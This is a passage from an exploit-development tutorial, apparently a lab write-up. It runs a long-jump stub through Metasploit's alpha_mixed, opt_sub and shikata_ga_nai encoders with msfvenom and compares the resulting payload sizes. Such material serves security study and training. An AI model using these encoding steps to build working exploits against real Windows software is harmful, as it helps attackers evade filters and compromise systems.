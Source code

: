 		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
		```

		* This results in the following output: We cannot use this as we do not have the required space!

		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/alpha_mixed -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/alpha_mixed
		x86/alpha_mixed succeeded with size 71 (iteration=0)
		x86/alpha_mixed chosen with final size 71
		Payload size: 71 bytes
		Saved as: /dev/null
		```

	3. Try [`x86/opt_sub`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/opt_sub) encoder on the long jump `jmp_l.bin`. This encodes the payload as a series of subtraction instructions and will write the encoded value to the ESP.

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
		```

		* This results in the following output: We cannot use this as we do not have the required space!

		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/opt_sub
		x86/opt_sub succeeded with size 61 (iteration=0)
		x86/opt_sub chosen with final size 61
		Payload size: 61 bytes
		Saved as: /dev/null
		```
	3. Try [`x86/shikata_ga_nai`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) encoder on the long jump `jmp_l.bin`. This complicated encoding scheme generates a payload with a polymorphic XOR additive feedback encoder.

		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -o /dev/null
		```
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		x86/shikata_ga_nai succeeded with size 32 (iteration=0)
		x86/shikata_ga_nai chosen with final size 32
		Payload size: 32 bytes
		Saved as: /dev/null
		```
